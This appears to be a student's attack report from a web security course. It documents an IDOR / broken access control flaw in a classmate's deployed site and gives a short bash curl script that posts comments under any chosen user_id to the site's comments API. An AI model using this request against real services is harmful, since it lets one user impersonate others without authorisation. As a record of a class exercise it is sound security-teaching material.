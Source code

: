 |||
|---|---|
|**攻擊者學號**|匿名|
|**受害者學號**|r13921a20|
|**受害者網站**|[https://pleasedonthurtme.vercel.app/](https://pleasedonthurtme.vercel.app/)|
|**攻擊手段**|IDOR / Broken Access Control|
|**漏洞位置**|[https://ia-midtermweb.onrender.com/api/comments](https://ia-midtermweb.onrender.com/api/comments)|

**攻擊指令:**
```bash
#!/bin/bash
TEXT="$1"
USER_ID="$2"

curl -X POST "https://ia-midtermweb.onrender.com/api/comments" \
    -H "Content-Type: application/json" \
    -d "{\"text\":\"$TEXT\", \"user_id\":\"$USER_ID\"}"
```
**Note:**  
User id can be access directly at:  
[https://ia-midtermweb.onrender.com/api/comments](https://ia-midtermweb.onrender.com/api/comments)

**成功攻擊截圖:**
![](img/IDOR2/1.png)

<div style="page-break-after: always"></div>

![](img/IDOR2/2.png)
![](img/IDOR2/3.png)
![](img/IDOR2/4.png)

